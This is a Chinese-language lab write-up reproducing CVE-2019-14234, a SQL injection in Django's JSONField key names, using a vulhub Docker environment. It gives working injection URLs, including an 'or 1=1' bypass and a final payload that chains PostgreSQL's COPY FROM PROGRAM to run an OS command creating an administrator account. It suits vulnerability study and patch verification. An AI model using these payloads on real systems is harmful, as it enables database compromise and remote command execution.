


# （CVE-2019-14234）Django JSONField sql 注入漏洞

> 原文：[http://book.iwonder.run/0day/Django/CVE-2019-14234.html](http://book.iwonder.run/0day/Django/CVE-2019-14234.html)

## 一、漏洞简介

该漏洞需要开发者使用了 JSONField/HStoreField，且用户可控 queryset 查询时的键名，在键名的位置注入 SQL 语句。

Django 通常搭配 postgresql 数据库，而 JSONField 是该数据库的一种数据类型。该漏洞的出现的原因在于 Django 中 JSONField 类的实现，Django 的 model 最本质的作用是生成 SQL 语句，而在 Django 通过 JSONField 生成 sql 语句时，是通过简单的字符串拼接。

通过 JSONField 类获得 KeyTransform 类并生成 sql 语句的位置。

其中 key_name 是可控的字符串，最终生成的语句是 WHERE (field->'[key_name]') = 'value'，因此可以进行 SQL 注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

[http://ip:8000/admin/vuln/collection/](http://ip:8000/admin/vuln/collection/)

#### 2、构造 URL 进行查询

[http://ip:8000/admin/vuln/collection/?detail__a%27b=123](http://ip:8000/admin/vuln/collection/?detail__a%27b=123)



可以看到已经注入成功，并且可以看到构造的 SQL 语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的 sql 语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于 or 1=1 永为真，因此应该返回所有结果，页面返回结果符合预期，如下图



下一步结合 CVE-2019-9193 我们尝试进行命令注入，构造 url 如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是 no results to fetch，说明我们的语句已经执行


最终 payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```

